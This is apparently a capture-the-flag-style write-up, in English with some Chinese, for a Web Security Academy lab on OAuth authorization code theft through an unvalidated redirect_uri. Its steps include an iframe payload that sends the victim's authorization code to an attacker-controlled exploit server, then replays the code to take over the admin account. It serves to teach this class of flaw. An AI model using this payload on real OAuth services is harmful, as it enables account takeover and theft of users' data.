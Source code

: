 ## Background  
A misconfiguration by the OAuth provider makes it possible for an attacker to **steal authorization codes** associated with other users' accounts so that they can get access to the victim's data.  
攻击者可能会以受害者用户身份登录任何注册了此 OAuth 服务的客户端应用程序.  
To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.  
You can log in with your own social media account using the following credentials: wiener:peter.  

## Steps  

1. With Burp is on, click to log in with the credentials and complete the OAuth login process.  

2. Log out and then log in again. Notice this time you don't need to enter your credentials to log in.  

3. In burp, find the most recent authorisation request, which is GET /auth?client_id=[...]. Notice you wil be redirected to the redirect_uri with the authorisation code. Send this to Repeater.   
![image](https://user-images.githubusercontent.com/106157137/176818607-fa98217f-4129-4522-94e3-4ef8ab343f8f.png)  
 
4. Change the redirect_uri to different values and it will always return 302 response.  

5. Chanage the redirect_uri to the exploit server. Send the request and show the response in browser.  
![image](https://user-images.githubusercontent.com/106157137/176818830-8b61f0fc-f31b-4965-a41f-d9fe283dd436.png)  

6. In the exploit server's access log, we will see there is an entry containing an authorisation code. This means you can leak authorisation codes to an external domain.  
![image](https://user-images.githubusercontent.com/106157137/176819368-6d92b826-e7d4-499b-80fc-0466cc1a9843.png)  

7. Go back to the exploit server, create an iframe at /exploit:  
```<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>```   
In this case, our src will be:  
```<iframe src="https://oauth-0a6900110397ad11c0d9b1f7024200d3.web-security-academy.net/auth?client_id=vbbzkx18f4smhl8s8sdbk&redirect_uri=https://exploit-0a6e0004037aadfbc0bab16c012100c7.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>```  
最好的方式是直接copy GET /auth?client_id=[..]的全部url，然后将redirect_uri部分改成exploit url。  
![image](https://user-images.githubusercontent.com/106157137/177232914-ac041540-0b60-4e1f-a152-1f8d6940371f.png)  
_Please ignore the double "https://" in the redirect_uri section. It was a typo._  

8. Store the exploit and click "view exploit". Check the exploit server's acess log. You will see another entry with a leaked code.  

9. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.  
![image](https://user-images.githubusercontent.com/106157137/177234734-2b002d8c-7602-41fc-ac28-6efcff0b3892.png)  

10. Log out and then use the stolen authorisation code to fill the url:  
`https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE`  

11. You will be automatically logged in as the admin user.  
